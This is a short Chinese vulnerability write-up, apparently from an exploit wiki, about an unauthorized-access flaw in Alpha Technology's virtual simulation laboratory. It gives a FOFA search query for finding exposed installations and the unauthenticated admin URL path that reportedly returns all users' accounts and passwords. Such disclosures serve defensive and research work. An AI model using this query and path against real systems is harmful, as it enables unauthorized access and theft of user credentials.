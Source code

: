 ```yaml
---
title: 阿尔法科技 虚拟仿真实验室 未授权访问漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web应用漏洞
 - 虚拟仿真实验室
---
```


# 阿尔法科技 虚拟仿真实验室 未授权访问漏洞

## 漏洞描述

阿尔法科技 虚拟仿真实验室 存在未授权访问漏洞，通过访问构造的Url可以获取敏感信息

## 漏洞影响

> [!NOTE]
>
> 虚拟仿真实验室

## FOFA

> [!NOTE]
>
> body="河南阿尔法科技有限公司"

## 漏洞复现

未授权的Url为

```
/admin/student/studentlist.html?page=1 
```

![](/img/20210924015142646268.png)

成功获取所有用户的账号密码信息

## 参考文章

http://www.0dayhack.net/index.php/1702/